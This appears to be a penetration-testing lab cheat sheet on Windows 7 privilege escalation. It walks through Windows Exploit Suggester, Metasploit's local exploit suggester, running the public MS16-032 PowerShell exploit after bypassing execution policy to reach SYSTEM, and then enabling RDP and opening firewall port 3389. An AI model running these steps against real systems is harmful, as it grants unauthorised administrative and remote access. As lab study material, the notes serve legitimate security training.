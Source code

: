#### Gathering Systeminfo Command Output
```cmd.exe
systeminfo
```
Capture the `systeminfo` command's output and save it to a text file on our attack VM

#### Updating the Local Microsoft Vulnerability Database
```Shell
python2.7 windows-exploit-suggester.py --update
```
Saves the contents to a local Excel file

#### Running Windows Exploit Suggester
```Shell
python2.7 windows-exploit-suggester.py  --database 2023-01-11-mssb.xls --systeminfo win7lpe-systeminfo.txt 
```

*NOTE: For the lab, and for my Kali distro, it was necessary to use the [Python3 version](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/f34dcc186697ac58c54ebe1d32c7695e040d0ecb/windows-exploit-suggester.py) with the following command:*

```Shell
python windows-exploit-suggester.py  --database 2023-01-11-mssb.xls --systeminfo sysinfo.txt 
```


#### If Meterpreter shell has been obtained
```Shell
run post/multi/recon/local_exploit_suggester
```
This will help us quickly find any potential privilege escalation vectors and run them within Metasploit should any module exist.

#### Exploiting MS16-032 with [PowerShell PoC](https://www.exploit-db.com/exploits/39719)
```PowerShell
Set-ExecutionPolicy bypass -scope process
```

```PowerShell
Import-Module .\Invoke-MS16-032.ps1
```

```PowerShell
Invoke-MS16-032
```

#### Spawning a SYSTEM Console
```cmd.exe
whoami
```

### Enabling RDP
#### Enable Remote Desktop
```PowerShell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
```
#### Start Remote Desktop Services 
```PowerShell
Start-Service -Name TermService -ErrorAction SilentlyContinue
```
#### Create Firewall rule allowing inbound traffic over port 3389
```PowerShell
New-NetFirewallRule -Name "Allow RDP" -DisplayName "Allow RDP" -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 3389
```